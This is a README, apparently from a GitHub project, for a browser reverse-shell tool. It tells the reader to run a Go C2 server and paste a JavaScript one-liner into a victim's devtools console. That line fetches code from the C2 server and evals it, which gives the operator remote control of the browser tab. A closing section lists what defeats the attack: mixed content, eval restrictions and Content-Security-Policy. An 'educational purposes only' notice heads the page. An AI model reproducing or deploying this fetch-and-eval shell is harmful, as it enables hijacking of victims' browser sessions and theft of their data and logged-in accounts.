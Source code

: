 # Browser Reverse Shell

**NOTICE: for educational purposes only, DO NOT use without the explicit permission of the owner of the browser**

Create a reverse shell into a browser tab.

## How to use

start the C2 server by going into the c2 directory and running

~~~bash
go run main.go
~~~

then in the victim browser, open devtools and paste the fetch-rev-shell.js contents into the console, changing out the url for the ip address of your c2 server.

~~~js
const url = "http://localhost:8080/"; const r1 = await fetch(url + "get");const r2 = await r1.text(); eval(r2);
~~~

now go to the console of the c2 server, you now have a javascript reverse shell into the current browser tab of the 

## Challenges

- HTTPS: most websites reject mixed content from http and https websites (except from localhost)
- This reverse shell relies on the eval function of javascript, which many sites block.
- Many sites (like github) block fetching from other sources than the preapproved ones, which will give you an error like
~~~
Content-Security-Policy: The page’s settings blocked the loading of a resource (connect-src) at http://localhost:8080/get because it violates the following directive: “connect-src 'self'
~~~
